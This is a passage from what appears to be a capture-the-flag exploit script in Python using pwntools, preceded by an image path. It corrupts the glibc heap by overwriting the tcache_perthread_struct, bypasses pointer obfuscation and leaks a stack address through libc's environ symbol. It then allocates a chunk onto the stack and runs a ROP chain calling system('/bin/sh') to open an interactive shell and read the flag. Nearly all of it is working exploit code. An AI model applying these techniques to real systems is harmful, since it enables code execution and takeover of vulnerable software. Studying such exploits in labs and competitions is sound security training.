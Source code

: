 ```python
Clear()

Set(0, 0)
Set(1, 0)
Clear()

# 4. overwrite tcache_perthread_struct and stack leak
for i in range(0x81):
    Set(i, i)
Upper(0, 0x21)
Upper(0, libc.symbols['environ'] - 0x210)
Upper(0, 0x21)
Upper(obfuscate(heap + 0x11eb0, heap + 0x2a0),0) 
Upper(0, 0x811)
Clear()

for i in range(0x41):
    Set(i, 0)

Copy(0x40, 0x20, -1)
Get(0x22)
stack = int(p.recvline(), 10)
log.success(f"stack @ {hex(stack)}")
Upper(0, 0x411)
for i in range(0x81):
    Set(i, 0)

Upper(0, 0x21)
Upper(0, stack - 0xa8)
Upper(0, 0x21)
Upper(obfuscate(0, heap + 0x2a0),0) 
Upper(0, 0x811)
Clear()

# 5. allocate into stack and ROP
for i in range(0x41):
    Set(i, i)

rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi', 'pop rbp', 'ret'])[0]
Upper(0, pop_rdi)
Upper(next(libc.search(b'/bin/sh')), 0)
Upper(libc.symbols['system'], 0)
for i in range(4):
    Upper(0, 0x4141414141414141)

Upper(0x0, 0x411)
choice(5)
p.sendline(b'cat /flag*')

p.interactive()
```

